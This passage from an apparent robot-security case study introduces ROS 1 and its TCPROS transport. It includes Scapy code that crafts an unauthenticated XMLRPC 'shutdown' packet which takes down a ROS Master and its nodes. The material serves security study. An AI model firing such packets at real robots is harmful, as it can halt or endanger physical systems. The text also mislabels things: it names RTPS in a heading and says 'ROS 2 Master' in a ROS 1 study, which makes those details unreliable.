

\newpage

## Robot Operating System (ROS 1)

The Robot Operating System (ROS) is the de *facto* standard for robot application development [@Quigley09]. It's a framework for creating robot behaviors that comprises various stacks and capabilities for message passing, perception, navigation, manipulation or security, among others. It's [estimated](https://www.businesswire.com/news/home/20190516005135/en/Rise-ROS-55-total-commercial-robots-shipped) that by 2024, 55% of the total commercial robots will be shipping at least one ROS package. **ROS is to roboticists what Linux is to computer scientists**.

This case study will analyze the security of ROS and demonstrate a few security flaws that made the community jump into a more robust evolution: ROS 2[^1] (see [case study on ROS 2](../2_ros2/))

[^1]: ROS 2 is the second edition of ROS targeting commercial solutions and including additional capabilities. ROS 2 (Robot Operating System 2) is an open source software development kit for robotics  applications. The purpose of ROS 2 is to offer a standard software platform to developers across industries that will carry them from research and prototyping through to deployment and  production. ROS 2 builds on the success of ROS 1, which is used today in myriad robotics applications  around the world.


### Dissecting ROS network interactions through RTPS

TCPROS is a transport layer for ROS Messages and Services. It uses standard TCP/IP sockets for transporting message data. Inbound connections are received via a TCP Server Socket with a header containing message data type and routing information. This class focuses on capturing the ROS Slave API.

Until it gets merged upstream (see TCPROS PR), you can get the TCPROS dissector as follows:

```bash
pip3 install git+https://github.com/vmayoral/scapy@tcpros
```

An example package is presented below:




```python
from scapy.contrib.tcpros import *
bind_layers(TCP, TCPROS)
bind_layers(HTTPRequest, XMLRPC)
bind_layers(HTTPResponse, XMLRPC)

pkt =   b"POST /RPC2 HTTP/1.1\r\nAccept-Encoding: gzip\r\nContent-Length: " \
        b"227\r\nContent-Type: text/xml\r\nHost: 12.0.0.2:11311\r\nUser-Agent:" \
        b"xmlrpclib.py/1.0.1 (by www.pythonware.com)\r\n\r\n<?xml version=" \
        b"'1.0'?>\n<methodCall>\n<methodName>shutdown</methodName>\n<params>" \
        b"\n<param>\n<value><string>/rosparam-92418</string></value>\n" \
        b"</param>\n<param>\n<value><string>BOOM</string></value>" \
        b"\n</param>\n</params>\n</methodCall>\n"

p = TCPROS(pkt)
```

or alternatively, crafting it layer by layer:

```python
p = (
    IP(version=4, ihl=5, tos=0, flags=2, dst="12.0.0.2")
    / TCP(
        sport=20001,
        dport=11311,
        seq=1,
        flags="PA",
        ack=1,
    )
    / TCPROS()
    / HTTP()
    / HTTPRequest(
        Accept_Encoding=b"gzip",
        Content_Length=b"227",
        Content_Type=b"text/xml",
        Host=b"12.0.0.2:11311",
        User_Agent=b"xmlrpclib.py/1.0.1 (by www.pythonware.com)",
        Method=b"POST",
        Path=b"/RPC2",
        Http_Version=b"HTTP/1.1",
    )
    / XMLRPC()
    / XMLRPCCall(
        version=b"<?xml version='1.0'?>\n",
        methodcall_opentag=b"<methodCall>\n",
        methodname_opentag=b"<methodName>",
        methodname=b"shutdown",
        methodname_closetag=b"</methodName>\n",
        params_opentag=b"<params>\n",
        params=b"<param>\n<value><string>/rosparam-92418</string></value>\n</param>\n<param>\n<value><string>BOOM</string></value>\n</param>\n",
        params_closetag=b"</params>\n",
        methodcall_closetag=b"</methodCall>\n",
    )
)
```

This package will invoke the `shutdown` method of ROS 2 Master, shutting it down, together with all its associated Nodes.
